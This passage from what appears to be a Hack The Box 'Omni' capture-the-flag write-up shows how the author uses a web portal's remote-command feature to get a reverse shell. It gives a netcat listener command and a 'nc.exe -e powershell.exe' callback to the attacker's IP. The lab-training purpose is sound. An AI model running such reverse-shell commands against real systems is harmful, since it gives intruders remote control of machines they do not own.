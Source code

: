 This is successful, and we gain access to the web portal.

![App Access To Portal](../../../assets/2021-01-10-hack-the-box-omni/app-access-to-the-portal.png)

There is a section in the portal that allows us to run remote commands. It contains a simple HTML input box to write commands and any outputs after pressing run are relayed back to the web page. We could use this and go through the effort of trying to grab the flag this way. Or we can do what we did before and get a reverse shell by launching netcat with `nc -lnvp 9000` on our local machine and execute `C://nc.exe -e powershell.exe 10.10.14.31 9000` on the portal. This will give us a reverse shell which we can control from our terminal.

![App Reverse Shell](../../../assets/2021-01-10-hack-the-box-omni/app-reverse-shell.png)
